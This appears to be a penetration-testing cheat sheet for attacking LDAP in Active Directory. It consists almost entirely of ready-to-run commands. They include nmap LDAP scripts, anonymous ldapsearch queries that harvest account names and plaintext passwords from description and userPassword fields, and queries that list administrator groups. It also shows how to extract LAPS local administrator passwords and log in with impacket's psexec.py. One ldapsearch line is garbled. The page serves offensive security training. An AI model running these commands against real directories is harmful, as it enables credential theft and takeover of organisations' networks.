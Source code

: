 # LDAP

## Enumeration

```
nmap -n -sV --script "ldap* and not brute" <ip>  
```

### Empty login

Enumerate users and associated data. The description field may contain plaintext credentials.

<pre><code>ldapsearch -x -h &#x3C;ip> -D "" -w "" -b "DC=&#x3C;subdomain>,DC=&#x3C;tld>"

<strong>ldapsearch -x -h &#x3C;ip> -D "" -w "" -b "DC=&#x3C;subdomain>,DC=&#x3C;tld>" | grep sAMAccountName
</strong>ldapsearch -x -h &#x3C;ip> -D "" -w "" -b "DC=&#x3C;subdomain>,DC=&#x3C;tld>" | grep description
ldapsearch -x -h &#x3C;ip> -D "" -w "" -b "DC=&#x3C;subdomain>,DC=&#x3C;tld>" | grep userpas
</code></pre>

## Enumeration with credentials

```
ldapsearch -x -h <ip> -D '<domain>\<user>' -w '<pass>' -b "<CN string>,DC=<subdomain>,DC=<TLD>"sers,DC=<subdomain>,DC=<TLD>"
```

Set `CN string` to one of the following values:

* `CN=Users`: list all users
* `CN=Administrators,CN=Builtin`: list all administrators
* `CN=<username>,CN=Users`: get information about a specific user
* `CN=Domain Admins,CN=Users`: list domain admins
* `CN=Domain Users,CN=Users`: list domain users
* `CN=Enterprise Admins,CN=Users`: list enterprise admins
* `CN=Computers`: list machines

## Administrative password

Requires access to LDAP with a valid username and password.

```
ldapsearch -x -h <ip> -D '<domain>\<user>' -w '<pass>' -b "DC=<subdomain>,DC=<tld>" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```

If successful it is possible to login using impacket's psexec.py script. The user is usually the local administrator.

```
psexec.py <domain>/administrator:'<pass>'@<ip>
```
